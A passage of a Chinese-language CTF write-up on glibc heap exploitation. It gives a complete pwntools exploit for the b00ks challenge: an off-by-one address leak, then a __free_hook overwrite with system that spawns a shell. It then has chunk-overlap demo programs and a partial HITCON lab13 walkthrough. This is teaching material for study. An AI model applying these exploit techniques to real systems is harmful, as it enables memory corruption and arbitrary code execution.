同时，由于我使用的glibc版本过高，更改程序运行所需要的glibc版本`patchelf --set-interpreter /home/dililearngent/Desktop/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/ld-2.23.so --set-rpath /home/dililearngent/Desktop/glibc-all-in-one/libs/2.23-0ubuntu3_amd64 b00ks`

换的版本要跟下面的代码中的ELF版本一致哦

###### 第一步：泄露保存在global_book_struct_array的book1_struct的地址

```python
input_author_name(target, 'a'*32)
create_book(target, 0x90 ,'book_1', 0x90, 'first book created')
```

根据程序分析可得：`author_name_ptr` 和 `global_book_struct_array` 之间正好相差 32 个字节，故当author_name输入32个字节的时候，根据漏洞函数，会越界输入一个字节\x00。在创建book_struct1后，其地址正好覆盖了越界的字节，此时在输出anthor_name的时候会将book1_struct的地址泄露

运行后结果：0x555555602040是`author_name_ptr`，程序的起始地址是0x555555400000，加上IDA中分析的偏移量0x202040得到的，当然也可以在调试的过程中得到，然后查看其内容

```
pwndbg> x /10gx 0x555555602040
0x555555602040:	0x6161616161616161	0x6161616161616161         //author_name
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605160	//book1_struct的地址     0x0000000000000000
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
//0x555555602060也是global_book_struct_array的起始地址
```

创建了一个book1,查看其堆情况

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555604000
Size: 0x1011

Allocated chunk | PREV_INUSE               //存储book1_name的堆块
Addr: 0x555555605010
Size: 0xa1

Allocated chunk | PREV_INUSE               //存储book1_description的堆块
Addr: 0x5555556050b0
Size: 0xa1

Allocated chunk | PREV_INUSE               //存储book1_struct的堆块
Addr: 0x555555605150
Size: 0x31

Top chunk | PREV_INUSE         
Addr: 0x555555605180
Size: 0x20e81
```

查看book1_struct地址中的内容

```
pwndbg> x /10gx 0x0000555555605160          //也是堆块Addr+0x10
0x555555605160:	0x0000000000000001	0x0000555555605020  //book1_id       book1_name_ptr
0x555555605170:	0x00005555556050c0	0x0000000000000090  //book1_description_ptr   book1_description_size
0x555555605180:	0x0000000000000000	0x0000000000020e81  //Top chunk  
0x555555605190:	0x0000000000000000	0x0000000000000000
0x5555556051a0:	0x0000000000000000	0x0000000000000000
```

查看book_name_ptr中的内容

```
pwndbg> x /gx 0x0000555555605020
0x555555605020:	0x0000315f6b6f6f62   //可以发现正好是我们输入的内容'book_1'
```

继续执行，将author_name输出

```
# leak boo1_struct addr
print_book(target)
target.recvuntil('a'*32)
temp = target.recvuntil('\x0a')
book1_struct_addr = u64(temp[:-1].ljust(8, '\x00'))
print('book1_struct_addr:'+hex(book1_struct_addr))
book2_struct_addr = book1_struct_addr + 0x30
print('book2_struct_addr:'+hex(book2_struct_addr))
```

得到如下结果，通过计算可以得到book2_struct_addr，之所以在 book1_struct_addr的基础上加0x30的原因是：创建的book2的name和description的大小过大，系统会使用mmap分配对空间，故没有使用连续的chunk块，而对于book2_struct的大小只有0x20，故在Top chunk上分配堆空间，故只需要加0x30得到book2_struct_addr

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap$ python2 b00ks.py
[+] Starting local process './b00ks': pid 12821
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] running in new terminal: ['/usr/bin/gdb', '-q', './b00ks', '12821']
[+] Waiting for debugger: Done
book1_struct_addr:0x555555605160
book2_struct_addr:0x555555605190
```

###### 第二步：伪造book1，泄露book2_name_ptr地址

创建book2

```python
create_book(target, 0x21000, 'book_2', 0x21000, 'second book create')
```

观察堆情况：

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555604000
Size: 0x1011

Allocated chunk | PREV_INUSE
Addr: 0x555555605010
Size: 0xa1

Allocated chunk | PREV_INUSE
Addr: 0x5555556050b0
Size: 0xa1

Allocated chunk | PREV_INUSE
Addr: 0x555555605150
Size: 0x31

Allocated chunk | PREV_INUSE       //存储book2_struct的堆块
Addr: 0x555555605180
Size: 0x31

Top chunk | PREV_INUSE
Addr: 0x5555556051b0
Size: 0x20e51
```

查看`global_book_struct_array`

```
pwndbg> x /10gx 0x555555602040
0x555555602040:	0x6161616161616161	0x6161616161616161   //author name
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605160	0x0000555555605190   //book1_struct_addr    book2_struct_addr
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
```

查看book2_struct_addr中的内容：

```
pwndbg> x /10gx 0x0000555555605190
0x555555605190:	0x0000000000000002	0x00007ffff7fcf010  //book2_id      book2_name_ptr
0x5555556051a0:	0x00007ffff7fad010	0x0000000000021000  //book2_description_ptr  book2_description_size
0x5555556051b0:	0x0000000000000000	0x0000000000020e51  //top chunk
0x5555556051c0:	0x0000000000000000	0x0000000000000000
0x5555556051d0:	0x0000000000000000	0x0000000000000000
```

可以查看book2_name_ptr和book2_description_ptr这两个堆地址，这两个堆地址与libc的基址相关，故泄露该地址可以得到libc基地址


可以发现book2_name_ptr相对于libc基址的offset为0x5c1010，无论是否开启地址随机化，offset始终没有发生变化，当然再不同的libc版本上就不同了

伪造book1，并且通过edit_book函数将伪造的book1写入到book1_description_ptr(0x00005555556050c0)处

```python
# fake book1_struct
payload = 'a' * 0x40 + p64(1) + p64(book2_struct_addr + 8) * 2 + p64(0xffff)
edit_book(target, 1, payload)
```

查看写入情况

```
pwndbg> x /30gx 0x00005555556050c0-0x10
0x5555556050b0:	0x0000000000000000	0x00000000000000a1
0x5555556050c0:	0x6161616161616161	0x6161616161616161      //book1_description_ptr，写入伪造的book1
0x5555556050d0:	0x6161616161616161	0x6161616161616161
0x5555556050e0:	0x6161616161616161	0x6161616161616161
0x5555556050f0:	0x6161616161616161	0x6161616161616161
0x555555605100:	0x0000000000000001	0x0000555555605198
0x555555605110:	0x0000555555605198	0x000000000000ffff      //到这结束
0x555555605120:	0x0000000000000000	0x0000000000000000
0x555555605130:	0x0000000000000000	0x0000000000000000
0x555555605140:	0x0000000000000000	0x0000000000000000      //book1_description分配的chunk到这结束
0x555555605150:	0x0000000000000000	0x0000000000000031   
0x555555605160:	0x0000000000000001	0x0000555555605020      //book1_struct_addr       
0x555555605170:	0x00005555556050c0	0x0000000000000090
0x555555605180:	0x0000000000000000	0x0000000000000031      
0x555555605190:	0x0000000000000002	0x00007ffff7fcf010     //book2_struct_addr
```

修改author_name,将book1_struct_addr的低字节更改成00

```python
change_author_name(target, 'a'*32)
```

```
pwndbg> x /10gx 0x555555602040
0x555555602040:	0x6161616161616161	0x6161616161616161
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605100	//低字节已经从之前的60变成00     0x0000555555605190
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
```

那么按照这个思路，查看book1_struct_addr（0x0000555555605100）中的内容

```
pwndbg> x /10gx 0x0000555555605100
0x555555605100:	0x0000000000000001	0x0000555555605198   //伪造的book1_id   book1_name_ptr
0x555555605110:	0x0000555555605198	0x000000000000ffff//伪造的book1_description_ptr book1_description_size
0x555555605120:	0x0000000000000000	0x0000000000000000
0x555555605130:	0x0000000000000000	0x0000000000000000
0x555555605140:	0x0000000000000000	0x0000000000000000
```

达到了我们想要的效果,其实0x555555605160中存储的依旧是之前的book1

**解释**：为什么要这么构造？

首先book1_struct这个结构体的内容构造比较好理解，id继续为1，而我们要得到book2_name_ptr，故将book1_name_ptr和book1description_ptr换成book2_name_ptr，size随意。那前面填充的'a'*0x40怎么来的呢？经过调试，0x5555556050c0到0x555555605100的长度(好奇，现在我是关闭了地址随机化，如果开启了，那还是任何时候都是填充0x40个吗？答案：是的，因为一开始分配的堆地址低字节是00，如果在book1的chunk之前位置的chunk的大小或者数量没有发生改变，那么低字节也一直不会变)

```
# leak book2_name ptr
print_book(target)
target.recvuntil('Name: ')
temp = target.recvuntil('\x0a')
book2_name_ptr = u64(temp[:-1].ljust(8, '\x00'))
print('book2_name_ptr:'+hex(book2_name_ptr))
```

执行后查看结果

```
book2_name_ptr:0x7ffff7fcf010
```

虽然我们再调试过程中能够看到这个地址，且输出的和我们调试看到的一直，但实际我们无法看到，这就是这个漏洞的作用所在

###### 第三步：获取shell

由于该程序启用了 `FULL RELRO` 保护措施，无法对 `GOT` 进行改写，但是可以改写`__free_hook` 或`__malloc_hook`，

```
pwndbg> x /10gx 0x0000555555605100
0x555555605100:	0x0000000000000001	0x0000555555605198
0x555555605110:	0x0000555555605198	0x000000000000ffff
0x555555605120:	0x0000000000000000	0x0000000000000000
0x555555605130:	0x0000000000000000	0x0000000000000000
0x555555605140:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000555555605198
0x555555605198:	0x00007ffff7b9a58b	0x00007ffff7dd37a8
0x5555556051a8:	0x0000000000021000	0x0000000000000000
0x5555556051b8:	0x0000000000020e51	0x0000000000000000
0x5555556051c8:	0x0000000000000000	0x0000000000000000
0x5555556051d8:	0x0000000000000000	0x0000000000000000
pwndbg> x /s 0x00007ffff7b9a58b
0x7ffff7b9a58b:	"/bin/sh"
pwndbg> x /gx 0x00007ffff7dd37a8
0x7ffff7dd37a8 <__free_hook>:	0x00007ffff7a53380

```

根据上面程序获得了book2_name_ptr和offset，进而得到libc基址，再得到__free_hook和system函数地址，还有/bin/sh地址

```python
# find in debug: mmap_addr - libcbase
# offset =  0x7ffff7fcf010 - 0x7ffff7a0e000s
offset=0x5c1010
libcbase = book2_name_ptr - offset
free_hook = libc.symbols['__free_hook'] + libcbase
system = libc.symbols['system'] + libcbase
binsh_addr = libc.search('/bin/sh').next() + libcbase
print('free_hook addr:'+hex(free_hook))
print('system_addr:'+hex(system))
print('binsh_addr:'+hex(binsh_addr))
```

得到的结果：

```
free_hook addr:0x7ffff7dd37a8
system_addr:0x7ffff7a53380
binsh_addr:0x7ffff7b9a58b
```

将__free_hook、/bin/sh的地址写入到book1_description

```python
payload = p64(binsh_addr) + p64(free_hook)
edit_book(target, 1, payload)
```

结果：

```
pwndbg> x /10gx 0x555555602040                            
0x555555602040:	0x6161616161616161	0x6161616161616161
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605100	0x0000555555605190    //global_book_struct_array      
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000555555605100                        //book1_struct_addr
0x555555605100:	0x0000000000000001	0x0000555555605198
0x555555605110:	0x0000555555605198  0x000000000000ffff
0x555555605120:	0x0000000000000000	0x0000000000000000
0x555555605130:	0x0000000000000000	0x0000000000000000
0x555555605140:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000555555605198            //伪造后的book1_description_ptr，也是book2_description_ptr
0x555555605198:	0x00007ffff7b9a58b	0x00007ffff7dd37a8    //写入的__free_hook和/bin/sh地址
0x5555556051a8:	0x0000000000021000	0x0000000000000000
0x5555556051b8:	0x0000000000020e51	0x0000000000000000
0x5555556051c8:	0x0000000000000000	0x0000000000000000
0x5555556051d8:	0x0000000000000000	0x0000000000000000
pwndbg> x /s 0x00007ffff7b9a58b  //查看
0x7ffff7b9a58b:	"/bin/sh"
pwndbg> x /gx 0x00007ffff7dd37a8
0x7ffff7dd37a8 <__free_hook>:	0x0000000000000000
```

然后将\_\_free_hook指向的内容修改为system函数地址

```
pwndbg> x /10gx 0x555555602040       //global_book_struct_array 
0x555555602040:	0x6161616161616161	0x6161616161616161
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605100	0x0000555555605190
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000555555605190    //book2_struct_addr
0x555555605190:	0x0000000000000002	0x00007ffff7b9a58b
0x5555556051a0:	0x00007ffff7dd37a8	0x0000000000021000
0x5555556051b0:	0x0000000000000000	0x0000000000020e51
0x5555556051c0:	0x0000000000000000	0x0000000000000000
0x5555556051d0:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x00007ffff7dd37a8    //book2_description_ptr，上一步将它变成了__free_hook的地址
0x7ffff7dd37a8 <__free_hook>:	0x00007ffff7a53380	0x0000000000000000
0x7ffff7dd37b8 <next_to_use>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37c8 <disallow_malloc_check>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37d8 <atfork_recursive_cntr>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37e8 <atfork_mem+8>:	0x00007ffff7a8b1a0	0x00007ffff7a8b730
pwndbg> x /gx 0x00007ffff7a53380       //编辑后将__free_hook的地址写入system函数地址
0x7ffff7a53380 <__libc_system>:	0xfa86e90b74ff8548
```

在调用delete_book的时候会调用free函数，其中有一步就是free(*book2_name_ptr),也就是free(/bin/sh);根据__free_hook的调用规则，会把free的参数作为hook函数的参数，__free_hook指针指向的地址作为函数地址，**之前已经把__free_hook指向了system**，于是就会调用system(binsh_addr)，从而getshell

```python
delete_book(target, 2)
```

一开始本地没打通，发现其实还是libc版本的问题，在打不通的情况下，可以尝试多更换libc版本(根据得到的函数地址在网站上查询相关版本，或者使用LibcSearcher)

##### 完整exp

```python
from LibcSearcher import LibcSearcher
from pwn import *

context(os='linux')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

def create_book(target, name_size, book_name, desc_size, book_desc):
    target.recv()
    target.sendline('1')
    target.sendlineafter('Enter book name size: ', str(name_size))
    target.sendlineafter('Enter book name (Max 32 chars): ', book_name)
    target.sendlineafter('Enter book description size: ', str(desc_size))
    target.sendlineafter('Enter book description: ', book_desc)

def delete_book(target, book_id):
    target.recv()
    target.sendline('2')
    target.sendlineafter('Enter the book id you want to delete: ', str(book_id))

def edit_book(target, book_id, book_desc):
    target.recv()
    target.sendline('3')
    target.sendlineafter('Enter the book id you want to edit: ', str(book_id))
    target.sendlineafter('Enter new book description: ', book_desc)

def print_book(target):
    target.recvuntil('>')
    target.sendline('4')

def change_author_name(target, name):
    target.recv()
    target.sendline('5')
    target.sendlineafter('Enter author name: ', name)

def input_author_name(target, name):
    target.sendlineafter('Enter author name: ', name)

target = process('./b00ks')
libc = ELF('/home/dililearngent/Desktop/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')

# gdb.attach(target)
input_author_name(target, 'a'*32)
create_book(target, 0x90 ,'book_1', 0x90, 'first book created')
#pause()
# leak boo1_struct addr
print_book(target)
target.recvuntil('a'*32)
temp = target.recvuntil('\x0a')
book1_struct_addr = u64(temp[:-1].ljust(8, '\x00'))
print('book1_struct_addr:'+hex(book1_struct_addr))
book2_struct_addr = book1_struct_addr + 0x30
print('book2_struct_addr:'+hex(book2_struct_addr))

create_book(target, 0x21000, 'book_2', 0x21000, 'second book create')

# fake book1_struct
payload = 'a' * 0x40 + p64(1) + p64(book2_struct_addr + 8) * 2 + p64(0xffff)
edit_book(target, 1, payload)

change_author_name(target, 'a'*32)

# leak book2_name ptr
print_book(target)
target.recvuntil('Name: ')
temp = target.recvuntil('\x0a')
book2_name_ptr = u64(temp[:-1].ljust(8, '\x00'))
print('book2_name_ptr:'+hex(book2_name_ptr))
# pause()
# find in debug: mmap_addr - libcbase
# offset =  0x7ffff7fcf010 - 0x7ffff7a0e000s
offset=0x5c1010
libcbase = book2_name_ptr - offset
free_hook = libc.symbols['__free_hook'] + libcbase
system = libc.symbols['system'] + libcbase
binsh_addr = libc.search('/bin/sh').next() + libcbase
print('free_hook addr:'+hex(free_hook))
print('system_addr:'+hex(system))
print('binsh_addr:'+hex(binsh_addr))

payload = p64(binsh_addr) + p64(free_hook)
edit_book(target, 1, payload)
payload = p64(system)
edit_book(target, 2, payload)

delete_book(target, 2)

target.interactive()
```

##### 参考链接

https://www.bilibili.com/video/BV11q4y1L7Ui

https://www.wangan.com/docs/1957

https://www.cnblogs.com/sketchpl4ne/p/14407128.html

## Chunk Extend and Overlapping

### 原理

#### 产生原因


#### 利用条件

程序中存在基于堆的漏洞

漏洞可以控制chunk header的数据

#### 利用思路

通过更改前一块的大小来控制后一块的内容

通过更改pre_inuse域和pre_size域来控制当前块的之前块的内容

### 示例

#### 1、fastbin extend

程序

```
#include<stdlib.h>
#include<malloc.h>
int main(void)
{
    void *ptr,*ptr1;

    ptr=malloc(0x10);//分配第一个0x10的chunk
    malloc(0x10);//分配第二个0x10的chunk

    *(long long *)((long long)ptr-0x8)=0x41;// 修改第一个块的size域

    free(ptr);
    ptr1=malloc(0x30);// 实现 extend，控制了第二个块的内容
    return 0;
}
```

编译成64位，调试，在修改size前观察堆的情况(第10行下断点)

```
pwndbg> heap
Allocated chunk | PREV_INUSE                      //chunk1
Addr: 0x55555555a000
Size: 0x21

Allocated chunk | PREV_INUSE                      //chunk2
Addr: 0x55555555a020
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x55555555a040
Size: 0x20fc1

pwndbg> x /10gx 0x55555555a000
0x55555555a000:	0x0000000000000000	0x0000000000000021   //chunk1
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000021   //chunk2
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000020fc1   //Top chunk
```

将chunk1的size域更改为0x41后

```
pwndbg> x /10gx 0x55555555a000
0x55555555a000:	0x0000000000000000	0x0000000000000041     //篡改后的size
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000021
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000020fc1
```

将ptr free之后,chunk1和chunk2合并成一个大小为0x40的chunk

```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x55555555a000 ◂— 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty

pwndbg> x /10gx 0x55555555a000
0x55555555a000:	0x0000000000000000	0x0000000000000041
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000021
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000020fc1
```

之后通过malloc(0x30)得到该合并的chunk，从而可以控制chunk2的内容，这种状态成为overlapping chunk

#### 2、smallbin extend

程序

```
#include<stdlib.h>
#include<malloc.h>
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x80);//分配第一个 0x80 的chunk1
    malloc(0x10); //分配第二个 0x10 的chunk2
    malloc(0x10); //防止与top chunk合并

	*(long long *)((long long)ptr-0x8)=0xb1;
    free(ptr);
    ptr1=malloc(0xa0);
}
```

编译成64位，调试，在修改chunk1的size前查看堆情况

```
pwndbg> heap
Allocated chunk | PREV_INUSE      //chunk1
Addr: 0x55555555a000
Size: 0x91

Allocated chunk | PREV_INUSE      //chunk2
Addr: 0x55555555a090
Size: 0x21

Allocated chunk | PREV_INUSE     
Addr: 0x55555555a0b0
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x55555555a0d0
Size: 0x20f31

pwndbg> x /30gx 0x55555555a000
0x55555555a000:	0x0000000000000000	0x0000000000000091      //chunk1
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000000
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000000000
0x55555555a050:	0x0000000000000000	0x0000000000000000
0x55555555a060:	0x0000000000000000	0x0000000000000000
0x55555555a070:	0x0000000000000000	0x0000000000000000
0x55555555a080:	0x0000000000000000	0x0000000000000000
0x55555555a090:	0x0000000000000000	0x0000000000000021      //chunk2
0x55555555a0a0:	0x0000000000000000	0x0000000000000000
0x55555555a0b0:	0x0000000000000000	0x0000000000000021
0x55555555a0c0:	0x0000000000000000	0x0000000000000000
0x55555555a0d0:	0x0000000000000000	0x0000000000020f31
0x55555555a0e0:	0x0000000000000000	0x0000000000000000
```

修改chunk1的size后

```
pwndbg> x /30gx 0x55555555a000
0x55555555a000:	0x0000000000000000	0x00000000000000b1
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000000
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000000000
0x55555555a050:	0x0000000000000000	0x0000000000000000
0x55555555a060:	0x0000000000000000	0x0000000000000000
0x55555555a070:	0x0000000000000000	0x0000000000000000
0x55555555a080:	0x0000000000000000	0x0000000000000000
0x55555555a090:	0x0000000000000000	0x0000000000000021
0x55555555a0a0:	0x0000000000000000	0x0000000000000000
0x55555555a0b0:	0x0000000000000000	0x0000000000000021
0x55555555a0c0:	0x0000000000000000	0x0000000000000000
0x55555555a0d0:	0x0000000000000000	0x0000000000020f31
0x55555555a0e0:	0x0000000000000000	0x0000000000000000
```

free(ptr)后

```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x55555555a000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x55555555a000
smallbins
empty
largebins
empty

pwndbg> parseheap
addr                prev                size                 status              fd                bk                
0x55555555a000      0x0                 0xb0                 Freed     0x7ffff7dd1b78    0x7ffff7dd1b78
0x55555555a0b0      0xb0                0x20                 Used                None              None
```

将chunk1和chunk2一起释放放入unsortedbin中

通过malloc(0xa0)从unsortedbin得到chunk，从而能够chunk2的内容

#### 3、free smallbin extend

程序

```
#include<stdlib.h>
#include<malloc.h>
int main()
{
    void *ptr,*ptr1;

    ptr=malloc(0x80);//分配第一个0x80的chunk1
    malloc(0x10);//分配第二个0x10的chunk2

    free(ptr);//首先进行释放，使得chunk1进入unsorted bin

    *(long long *)((long long)ptr-0x8)=0xb1;
    ptr1=malloc(0xa0);
}
```

malloc申请两个chunk后

```
pwndbg> x /30gx 0x55555555a000
0x55555555a000:	0x0000000000000000	0x0000000000000091      //chunk1
0x55555555a010:	0x0000000000000000	0x0000000000000000
0x55555555a020:	0x0000000000000000	0x0000000000000000
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000000000
0x55555555a050:	0x0000000000000000	0x0000000000000000
0x55555555a060:	0x0000000000000000	0x0000000000000000
0x55555555a070:	0x0000000000000000	0x0000000000000000
0x55555555a080:	0x0000000000000000	0x0000000000000000
0x55555555a090:	0x0000000000000000	0x0000000000000021       //chunk2
0x55555555a0a0:	0x0000000000000000	0x0000000000000000
0x55555555a0b0:	0x0000000000000000	0x0000000000020f51
0x55555555a0c0:	0x0000000000000000	0x0000000000000000
0x55555555a0d0:	0x0000000000000000	0x0000000000000000
0x55555555a0e0:	0x0000000000000000	0x0000000000000000
```

先free掉ptr

```
pwndbg> heap
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55555555a000     //free后的chunk1
Size: 0x91
fd: 0x7ffff7dd1b78
bk: 0x7ffff7dd1b78

Allocated chunk          //chunk2
Addr: 0x55555555a090
Size: 0x20

Top chunk | PREV_INUSE
Addr: 0x55555555a0b0
Size: 0x20f51

pwndbg> parseheap
addr                prev                size                 status              fd                bk                
0x55555555a000      0x0                 0x90                 Freed     0x7ffff7dd1b78    0x7ffff7dd1b78
0x55555555a090      0x90                0x20                 Used                None              None

```

篡改chunk1的size

```
pwndbg> x /30gx 0x55555555a000
0x55555555a000:	0x0000000000000000	0x00000000000000b1     //size篡改
0x55555555a010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x55555555a020:	0x0000000000000000	0x0000000000000000
0x55555555a030:	0x0000000000000000	0x0000000000000000
0x55555555a040:	0x0000000000000000	0x0000000000000000
0x55555555a050:	0x0000000000000000	0x0000000000000000
0x55555555a060:	0x0000000000000000	0x0000000000000000
0x55555555a070:	0x0000000000000000	0x0000000000000000
0x55555555a080:	0x0000000000000000	0x0000000000000000
0x55555555a090:	0x0000000000000090	0x0000000000000020
0x55555555a0a0:	0x0000000000000000	0x0000000000000000
0x55555555a0b0:	0x0000000000000000	0x0000000000020f51
0x55555555a0c0:	0x0000000000000000	0x0000000000000000
0x55555555a0d0:	0x0000000000000000	0x0000000000000000
0x55555555a0e0:	0x0000000000000000	0x0000000000000000
```

此时malloc会分配chunk1+chunk2

### 例题

#### HITCON Trainging lab13

##### 程序防护

```
dililearngent@dililearngent-virtual-machine:~/Desktop/CTF/pwn/heap$ checksec heapcreator
[*] '/home/dililearngent/Desktop/CTF/pwn/heap/heapcreator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序开启了Canary和NX

##### 程序流程

程序中有一个堆结构体，大小为0x10，第一个字节存放堆content的大小，即我们输入创建堆的size，第二个字节存放堆content的指针，即内容存放的位置；同时有一个数组heaparray，专门存放堆的结构体指针

创建堆：首先程序自动申请一个0x10的堆，我们输入长度，程序根据输入的长度申请一个相应大小的堆，通过read函数将内容输入到堆块中，同时将长度和存有内容的堆块指针写入到0x10的堆中

编辑堆：根据指定的索引以及之前存储的堆的大小读取指定内容，但是这里读入的长度会比之前大 1，所以会**存在 off by one 的漏洞**

输出堆：根据索引输出堆中的content，可以信息泄露输出

删除堆：删除指定堆，并且将对应指针设置为了 NULL；IDA中free的是heap_struct_ptr和heap_content_ptr

##### 漏洞分析

认真分析程序发现，在编辑的时候read输入的时候可以输入比size多一个字节

```
if ( heaparray[v1] )
  {
    printf("Content of heap : ", &buf);
    read_input(*((_QWORD *)heaparray[v1] + 1), *(_QWORD *)heaparray[v1] + 1LL);
    puts("Done !");
  }
```

##### 结构图


##### 思路

1. 利用 off by one 漏洞覆盖下一个 chunk 的 size 字段，从而构造伪造的 chunk 大小。
2. 申请伪造的 chunk 大小，从而产生 chunk overlap，进而修改关键指针。

##### 详细步骤

第一步：创建两个heap

```python
create(0x18,'aaaa')
create(0x18,'bbbb')
```

```
pwndbg> x /10gx 0x06020A0
0x6020a0 <heaparray>:	0x0000000000603010	0x0000000000603050     //heap0_struct_ptr   heap1_struct_ptr
0x6020b0 <heaparray+16>:	0x0000000000000000	0x0000000000000000
0x6020c0 <heaparray+32>:	0x0000000000000000	0x0000000000000000
0x6020d0 <heaparray+48>:	0x0000000000000000	0x0000000000000000
0x6020e0 <heaparray+64>:	0x0000000000000000	0x0000000000000000
```

查看堆情况

```
pwndbg> x /30gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000021       //heap0_struct(标注的是chunk的地址)
0x603010:	0x0000000000000018	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021       //heap0_content
0x603030:	0x0000000a61616161	0x0000000000000000      
0x603040:	0x0000000000000000	0x0000000000000021       //heap1_struct
0x603050:	0x0000000000000018	0x0000000000603070
0x603060:	0x0000000000000000	0x0000000000000021       //heap1_content
0x603070:	0x0000000a62626262	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000020f81       //top trunk
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
```

第二步：覆盖heap1_struct的size为0x41

```python
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
```

```
pwndbg> x /30gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000021       //heap0_struct
0x603010:	0x0000000000000018	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021       //heap0_content
0x603030:	0x0068732f6e69622f	0x6161616161616161
0x603040:	0x6161616161616161	0x0000000000000041       //heap1_struct,覆盖后的size
0x603050:	0x0000000000000018	0x0000000000603070
0x603060:	0x0000000000000000	0x0000000000000021       //heap1_content		
0x603070:	0x0000000a62626262	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000020f81
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
```

```
pwndbg> heap
Allocated chunk | PREV_INUSE      //heap0_struct
Addr: 0x603000
Size: 0x21

Allocated chunk | PREV_INUSE      //heap0_content
Addr: 0x603020
Size: 0x21

Allocated chunk | PREV_INUSE      //heap1_struct+heap1_content
Addr: 0x603040
Size: 0x41

Top chunk | PREV_INUSE
Addr: 0x603080
Size: 0x20f81
```

第三步：删除heap1

```
delete(1)
```

```
pwndbg> heap
Allocated chunk | PREV_INUSE         //heap0_struct
Addr: 0x603000
Size: 0x21

Allocated chunk | PREV_INUSE         //heap0_content
Addr: 0x603020
Size: 0x21

Free chunk (fastbins) | PREV_INUSE   //heap1_struct+heap1_content
Addr: 0x603040
Size: 0x41
fd: 0x00

Top chunk | PREV_INUSE
Addr: 0x603080
Size: 0x20f81

pwndbg> bins
fastbins
0x20: 0x603060 ◂— 0x0     
0x30: 0x0
0x40: 0x603040 ◂— 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

第四步：创建一个新的new_heap1,并网里面写入了内容，使得new_heap1_struct中得new_heap1_content_ptr覆盖为free函数得got表地址

```
